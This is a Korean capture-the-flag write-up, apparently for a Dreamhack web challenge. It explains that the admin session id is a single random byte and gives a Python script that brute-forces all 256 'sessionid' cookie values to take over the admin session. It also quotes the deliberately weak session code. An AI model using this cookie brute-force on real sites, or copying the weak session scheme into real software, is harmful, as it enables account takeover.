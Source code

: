 ```python
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

메인 함수부터 보았을 때 세션 저장소에 1byte 랜덤한 값을 인덱스로 정해서 "admin"을 넣는다. 예로 든다면 `session_storage[28]='admin'`이 되는 셈이다.

이후에 로그인하는 과정을 "guest" 계정으로 예를 들어본다면, 세션 저장소에 4btye 랜덤한 값을 인덱스로 정해서 "guest"를 넣는다. `session_storage[492612b2]='guest'` 이 되는 것이겠다.

그리고 인덱스 페이지에서 세션 저장소에 있는 값을 기준으로 사용자 이름을 불러오게 되는데, 이 때 전달되는 값을 `sessionid`라는 쿠키 값으로부터 가져온다. 즉, 세션 저장소에서 가져올 id의 정보를 사용자의 쿠키 조작을 통해 이루어지므로, 1byte 정도의 브루트 포싱은 도전해 볼만하지 않을까 생각한다.

![image-20220630180103795](../img/image-20220630180103795.png)

post 방식은 안되어 get으로 해보았다.

![image-20220630180550984](../img/image-20220630180550984.png)

![image-20220630180623319](../img/image-20220630180623319.png)

나이스! 아래는 사용한 코드이다.

```python
import requests

def my_request(num):
	url = "http://host3.dreamhack.games:20255/"
	cookie = {'sessionid':hex(num)[2:]}
	response = requests.get(url=url,cookies=cookie)
	return response


def solve():
	for num in range(0,256):
		response = my_request(num)
		if "admin" in response.text:
			print("Finally I get idx:",hex(num))
			break

if __name__ == "__main__":
	solve()
```
